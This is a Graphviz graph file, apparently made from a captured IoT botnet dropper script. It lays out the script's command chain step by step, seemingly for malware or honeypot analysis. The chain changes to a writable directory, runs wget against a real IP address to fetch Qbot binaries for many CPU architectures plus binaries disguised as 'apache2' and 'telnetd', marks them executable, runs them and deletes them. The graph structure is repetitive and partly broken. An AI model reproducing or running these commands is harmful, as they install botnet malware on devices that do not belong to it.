 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://80.211.175.22/sunlessqbotmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x sunlessqbotmips "];
12 -> 14 [label=";,"];
14 [label="./sunlessqbotmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf sunlessqbotmips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://80.211.175.22/sunlessqbotmipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x sunlessqbotmipsel "];
30 -> 32 [label=";,"];
32 [label="./sunlessqbotmipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf sunlessqbotmipsel "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://80.211.175.22/sunlessqbotsh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x sunlessqbotsh4 "];
48 -> 50 [label=";,"];
50 [label="./sunlessqbotsh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf sunlessqbotsh4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://80.211.175.22/sunlessqbotx86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x sunlessqbotx86 "];
66 -> 68 [label=";,"];
68 [label="./sunlessqbotx86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf sunlessqbotx86 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://80.211.175.22/sunlessqbotarmv61 "];
82 -> 84 [label=";,"];
84 [label="chmod +x sunlessqbotarmv61 "];
84 -> 86 [label=";,"];
86 [label="./sunlessqbotarmv61 "];
86 -> 88 [label=";,"];
88 [label="rm -rf sunlessqbotarmv61 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://80.211.175.22/sunlessqboti686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x sunlessqboti686 "];
102 -> 104 [label=";,"];
104 [label="./sunlessqboti686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf sunlessqboti686 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://80.211.175.22/sunlessqbotppc "];
118 -> 120 [label=";,"];
120 [label="chmod +x sunlessqbotppc "];
120 -> 122 [label=";,"];
122 [label="./sunlessqbotppc "];
122 -> 124 [label=";,"];
124 [label="rm -rf sunlessqbotppc "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://80.211.175.22/sunlessqboti586 "];
136 -> 138 [label=";,"];
138 [label="chmod +x sunlessqboti586 "];
138 -> 140 [label=";,"];
140 [label="./sunlessqboti586 "];
140 -> 142 [label=";,"];
142 [label="rm -rf sunlessqboti586 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://80.211.175.22/sunlessqbotm68k "];
154 -> 156 [label=";,"];
156 [label="chmod +x sunlessqbotm68k "];
156 -> 158 [label=";,"];
158 [label="./sunlessqbotm68k "];
158 -> 160 [label=";,"];
160 [label="rm -rf sunlessqbotm68k "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://80.211.175.22/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://80.211.175.22/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://80.211.175.22/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://80.211.175.22/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
